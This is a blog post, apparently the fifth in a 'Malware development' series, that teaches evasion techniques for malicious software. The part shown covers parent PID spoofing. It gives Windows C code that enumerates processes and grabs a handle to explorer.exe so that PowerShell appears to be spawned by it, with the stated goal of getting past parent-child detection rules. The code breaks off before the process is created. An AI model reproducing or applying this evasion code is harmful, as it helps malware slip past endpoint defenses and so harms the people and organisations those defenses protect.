 ```yaml
---
title: Malware development part 5
layout: post
---
```


# Introduction
This is the fifth post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.

In the previous posts we explored anti-VM, anti-sandbox, anti-debugging and anti-static-analysis methods. 

In this post we'll explore some cool tricks to further obscure our code like parent PID spoofing, process protection, environmental keying and bruteforce decryption of malware data and configuration. So this will be a mix of some cool features I've been implementing recently.

As always: we assume 64-bit execution environment. Also, error checks and cleanups are ommited in the code samples below.

# Process creation tips
## Parent PID spoofing
This is a simple method to bypass malicious behavior detections based on parent-child process relationship. Usually when an application starts another executable, the new process has a parent PID assigned which indicates the process that created it. This allows to detect and possibly block malicious intents like for example `Word`/`Excel` application starting `Powershell`. This technique may be combined with for example process hollowing to achieve more stealth.

The great thing is that `CreateProcess` API lets you provide additional information for process creation, including the one called `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`. Let's see how to use it - we will create a `Powershell` process in a way that it will look like it was spawned by `explorer.exe`:

```c
DWORD runningProcessesIDs[1024];
DWORD runningProcessesCountBytes;
DWORD runningProcessesCount;
HANDLE hExplorerexe = NULL;

EnumProcesses(runningProcessesIDs, sizeof(runningProcessesIDs), &runningProcessesCountBytes);
runningProcessesCount = runningProcessesCountBytes / sizeof(DWORD);

for (int i = 0; i < runningProcessesCount; i++)
{
    if (runningProcessesIDs[i] != 0)
    {
        HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, runningProcessesIDs[i]);
        char processName[MAX_PATH + 1];
        GetModuleFileNameExA(hProcess, 0, processName, MAX_PATH);
        _strlwr(processName);
        if (strstr(processName, "explorer.exe") && hProcess)
        {
            hExplorerexe = hProcess;
        }
    }
}

STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
SIZE_T attributeSize;
```